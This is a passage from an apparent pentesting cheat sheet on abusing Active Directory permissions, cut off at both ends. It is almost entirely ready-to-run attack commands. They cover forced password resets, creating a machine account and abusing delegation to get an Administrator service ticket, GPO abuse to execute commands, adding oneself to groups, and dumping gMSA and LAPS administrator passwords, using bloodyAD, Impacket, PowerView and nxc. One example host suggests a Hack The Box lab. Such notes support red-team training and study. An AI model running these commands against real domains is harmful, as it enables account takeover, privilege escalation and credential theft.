 		bloodyAD --host [DC_FQDN] --dc-ip [DC_IP] -d [DOMAIN] [AUTH_STRING] set password "[TARGET_USER]" "[PASS]"
		```
	- Password Reset (PowerView)
	  ```powershell
	  $cred = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
	  set-domainuserpassword [TARGET] -accountpassword $cred
		```
- **PC Accounts**
	1. Create a new Computer account `MY_PC` 
		 ```bash
		   addcomputer.py '[DOMAIN]/[USER]:[PASS]'
		   ```
	2. Give **delegation rights** to your machine account, so that your fake machine can impersonate a high-privileged user to the target machine.
		```bash
		rbcd.py '[DOMAIN]/[USER]:[PASS]' -delegate-from '[MY_PC]' -delegate-to '[TARGET_PC]' -action write
		```
	3. Request a service ticket as Administrator
		```bash
		getST.py '[DOMAIN]/[MY_PC]:[MY_PASS]' -dc-ip [IP] -spn 'cifs/[TARGET_PC_FQDN]' -impersonate Administrator
		```
		The `TARGET_PC_FQDN` is for example, `DC.SUPPORT.HTB`
	 4. Ticket login &rarr; Authentication
- GPOs
  - `New-GPO -Name poc -Comment "poc" | New-GPLink -Target "[DC_DOMAIN_STRING]" -LinkEnabled Yes`
- `pygpoabuse [AUTH_STRING] -dc-ip [DC_IP] -gpo-id "[POC_GPO_ID]" -command "[CMD]"` → `PS> gpupdate /force`
#### AddMember / AddSelf
 Add youself to the group
 - Linux
	```bash
	bloodyAD --host [DC FQDN] --dc-ip [DC_IP] -d [DOMAIN] -u [USER] -p [PASS] add groupMember '[GROUP_DIST_NAME]' [YOUR_USER]
    ```
	`GROUP_DIST_NAME` is the Distinguished Name of the group (see Bloodhound)
- Windows (Powerview)
  ```powershell
  Add-DomainGroupMember -Identity '[GROUP]' -Members '[USER]'
	```
#### ReadGMSAPassword

```bash
cd ~/TOOLS/gMSADumper
python3 getTGT.py -dc-ip [IP] [AUTH]
```

#### ReadLAPS
Reads the laps password, which normally is the administrator one.
- nxc
  ```bash
  nxc smb [IP] [AUTH_STRING] --laps
	```
- BloodyAD
  ```bash
  bloodyAD --host [DC_FQDN] --dc-ip [DC_IP] -d [DOMAIN] -u [USR] -p [PWD] get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime	
  ```
- From Windows:
  ```powershell
  Get-ADComputer [DC_NAME] -property 'ms-mcs-admpwd'
	```
#### WriteDACL
- Over Domain
  ```